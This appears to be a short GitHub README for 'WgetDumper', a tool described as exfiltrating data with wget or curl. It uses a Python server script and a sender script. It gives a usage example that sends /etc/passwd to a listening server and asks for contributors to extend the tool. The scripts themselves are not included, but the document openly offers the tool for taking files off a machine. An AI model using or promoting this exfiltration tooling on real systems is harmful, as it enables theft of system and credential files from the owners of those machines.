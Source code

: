 # WgetDumper
### Features

- Data exfiltration using wget command.
- You can also replace the wget to curl.

![](https://i.imgur.com/lF57ji6.jpg)




**How it works?**
The tool has 2 python scripts, a server side and client side. You need to start the server and use the sender to exfiltrate the data and send, you can exfiltrate a lot of kinds of files. Contribute, we need to implement more functions to turns it a incredible project.

*Note: The next version needs to handle lines with a wide range.*

**Server**
`$ python DumpServer.py 8080  `

**Sender**
`$ python WgetSender.py "/etc/passwd" `


####Code Blocks (Indented style)
![](https://i.imgur.com/CnKEmHQ.gif)


